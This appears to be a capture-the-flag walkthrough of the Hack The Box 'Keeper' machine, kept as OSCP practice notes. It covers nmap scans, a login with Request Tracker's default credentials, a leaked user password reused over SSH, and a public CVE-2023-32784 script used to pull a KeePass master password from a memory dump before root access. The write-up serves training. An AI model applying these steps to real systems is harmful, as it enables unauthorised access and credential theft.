


**Start 10:40 02-08-2024**

---
```
10.10.11.227
```
## Nmap recon

As always we go ahead and start off with an `nmap` scan.

```bash
┌──(kali㉿kali)-[~]
└─$ nmap 10.10.11.227            
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-02 09:37 IST
Nmap scan report for 10.10.11.227
Host is up (0.015s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 0.35 seconds
```

The `quick nmap scan` shows us 2 open ports, `22 & 80`. Let's run a more thorough scan just to be sure. 

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -Pn -oA tcp -p- -T4 -vvvv --reason 10.10.11.227
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-02 09:39 IST
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 09:39
Completed NSE at 09:39, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 09:39
Completed NSE at 09:39, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 09:39
Completed NSE at 09:39, 0.00s elapsed
Initiating Parallel DNS resolution of 1 host. at 09:39
Completed Parallel DNS resolution of 1 host. at 09:39, 0.00s elapsed
DNS resolution of 1 IPs took 0.00s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 09:39
Scanning 10.10.11.227 [65535 ports]
Discovered open port 80/tcp on 10.10.11.227
Discovered open port 22/tcp on 10.10.11.227
Completed Connect Scan at 09:39, 14.65s elapsed (65535 total ports)
Initiating Service scan at 09:39
Scanning 2 services on 10.10.11.227
Completed Service scan at 09:39, 6.04s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.11.227.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 09:39
Completed NSE at 09:39, 0.62s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 09:39
Completed NSE at 09:39, 0.06s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 09:39
Completed NSE at 09:39, 0.00s elapsed
Nmap scan report for 10.10.11.227
Host is up, received user-set (0.070s latency).
Scanned at 2024-08-02 09:39:22 IST for 22s
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKHZRUyrg9VQfKeHHT6CZwCwu9YkJosNSLvDmPM9EC0iMgHj7URNWV3LjJ00gWvduIq7MfXOxzbfPAqvm2ahzTc=
|   256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBe5w35/5klFq1zo5vISwwbYSVy1Zzy+K9ZCt0px+goO
80/tcp open  http    syn-ack nginx 1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 09:39
Completed NSE at 09:39, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 09:39
Completed NSE at 09:39, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 09:39
Completed NSE at 09:39, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.61 seconds
```

It appears that those really are the only 2 ports open, it also shows that the site on `port 80` doesn't have a title, but let's add it to our `/etc/hosts` file anyways under `keeper.htb`. Let's look the site up to see what we're dealing with.

### 80/TCP - HTTP

After visiting the site at `http://10.10.11.227:80` we are greeted with the following:


We then add the `tickets.keeper.htb` address under the same `IP` to our `/etc/hosts` file and voila:


We see that the site is powered by `RT 4.4.4+dfsg-2ubuntu1 (Debian)`. I tried to look it up using `searchsploit` and found the following:


==Default credentials==
I don't think this is what we're looking for, instead we can look up whether there's any default credentials that are in use.

While scrolling on [this README](https://docs.bestpractical.com/rt/4.4.4/README.html) I found the following information:


Let's try it out shall we?


And...


Looks like someone forgot to change the default credentials...

After glancing over the site I found the following information that seemed interesting. I found 2 users on the site, namely `root` the one we're logged in as, and `Inorgaard`:


Let's take a look at the `Inorgaard` user:




After clicking the `New ticket in` button we see this message:


Well well well, after clicking the link we see this:


I don't think it will be useful to us, but good to know that it might be possible anyways.

### 22/TCP -SSH

We gained new `login credentials`. Let's try to log into `SSH` using these creds.

```
lnorgaard
Welcome2023!
```


Easy peasy...

Now let's get those flags

### user.txt
After logging into `SSH` we can now get to capturing flags. 

```bash
┌──(kali㉿kali)-[~]
└─$ ssh lnorgaard@10.10.11.227  
The authenticity of host '10.10.11.227 (10.10.11.227)' can't be established.
ED25519 key fingerprint is SHA256:hczMXffNW5M3qOppqsTCzstpLKxrvdBjFYoJXJGpr7w.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.227' (ED25519) to the list of known hosts.
lnorgaard@10.10.11.227's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
You have mail.
Last login: Tue Aug  8 11:31:22 2023 from 10.10.14.23
lnorgaard@keeper:~$ sudo -l
[sudo] password for lnorgaard: 
Sorry, user lnorgaard may not run sudo on keeper.
lnorgaard@keeper:~$ cat user.txt
f3a629c5aff89bfc65cf215a3c05009f
lnorgaard@keeper:~$ 
```

Unfortunately enough we notice that we cannot check `sudo privileges using sudo -l`.
I guess we'll have to try other ways.

## Privilege Escalation
Since we cannot run `sudo -l` and do it the easy way, we'll have to look around further first.
After `ls -l` on the current directory we notice there's a `.zip` file. Let's unzip it and check what's in there.


Looks like there's some `passcodes` inside the `KeePass files`. 
Apparently there's a ready-made `CVE` for us [that leverages this exact exploit](https://nvd.nist.gov/vuln/detail/CVE-2023-32784). 


Lucky for us that matches our exact description:


Let's get to it then. Using [this]() script we will go ahead and run it against the `PassDump` file in order to get the `cleartext passwords` out. 
We will have to `scp` the exploit from the `.zip` folder to the `ssh server`.
To do this we need to use the following syntax:

```bash
scp poc.py lnorgaard@10.10.11.227:/home/lnorgaard
```


Now we can get to exploiting.
Apparently the `python exploit` follows the following syntax:

```bash
python3 poc.py -d KeePassDumpFull.dmp
```

We run the exploit for a while and check back afterwards on the progress.



It appears to be a `Danish` phrase (recall that the user was from Denmark as shown on the website?).

After googling the second part `med flode` we find a possible match:


aka

```
rødgrød med fløde
```

Before we can open the `db` we need to transfer it to our own machine using:


And here we go:

```bash
-rw-r--r-- 1 kali kali 3630 Aug  2 10:49 keepass.kdbx
```

Now we can install `KeePass` and get to opening the `db`.

```bash
┌──(kali㉿kali)-[~]
└─$ sudo apt-get install keepass2
```

And now we open it with:

```bash
keepass2 keepass.kdbx
```

Insert the password phrase we got earlier and then login:


Click on `Tick root` and in top left corner click on `Entry -> edit entry` and the following screen will pop up:


Then `copy` all off the `notes` contents and put it in a `keeper.txt` file.


### root.txt

Now we can go ahead and log into `ssh using root`:


```
root.txt
d119e9bd34a7119d4303f8c165c28b9f
```


---

**Finished 12:17 02-08-2024**

[^Links]: [[Hack The Box]] [[OSCP Prep]] 

